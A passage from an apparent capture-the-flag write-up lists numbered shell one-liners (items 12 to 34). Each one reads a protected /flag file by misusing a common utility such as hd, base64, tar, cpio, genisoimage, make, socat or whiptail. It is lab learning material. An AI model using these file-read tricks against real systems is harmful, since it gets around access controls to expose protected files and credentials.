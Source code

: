 12. `hd /flag | awk '{print $(NF)}' | tr -d '\n' | sed -Ee 's/\|//g;s/\.[0-9]{8}/\n/'`
    - `awk` part
      - use the last column
    - `tr`, translate, squeeze, and/or delete characters
      - remove all the `Enter(\n)`
    - `sed` part
      - delete all the `|` characters
      - transform all `.XXXXXXXX` pattern (`X` is one number) into a `Enter(\n)`
    
13. `xxd /flag | awk '{print $(NF)}' | tr -d '\n' | sed 's/\.$/\n/'`

14. `base32 /flag | base32 -d`

15. `base64 /flag | base64 -d`

16. `split /flag | cat ./xaa`

17. `gzip -c /flag | zcat`

18. `bzip2 -c /flag | bzcat`

19. `zip - /flag | zcat`

20. `tar -cvf - /flag | cat`

21. ```bash
    ar -rvs ~/tmp.a /flag; ar -x ~/tmp.a flag; cat flag
    # then remove files
    rm -rf tmp.a flag
    ```

22. `echo "/flag" | cpio -ov > flag.cpio && cat flag.cpio`

23. **EXTREMELY HARD** `genisoimage -sort /flag -o - /flag`
    
- `genisoimage --help 2>&1 | grep FILE`
    - [https://www.youtube.com/watch?v=14mIjpOXnrM&t=733](https://www.youtube.com/watch?v=14mIjpOXnrM&t=733)
    
24. `env -i cat /flag`

25. `find / -maxdepth 1 -name flag -exec cat {} \;`

26. `echo -e "ans: /flag\n\tcat /flag" > Makefile && make`

27. `nice cat /flag`

28. `timeout 1000 cat /flag`

29. `stdbuf -o L cat /flag`

30. `setarch x86_64 -v cat /flag`

31. `watch -x cat /flag`

32. `socat - /flag`

33. `whiptail --textbox /flag 20 60`

34. `awk '{print $0}' /flag`
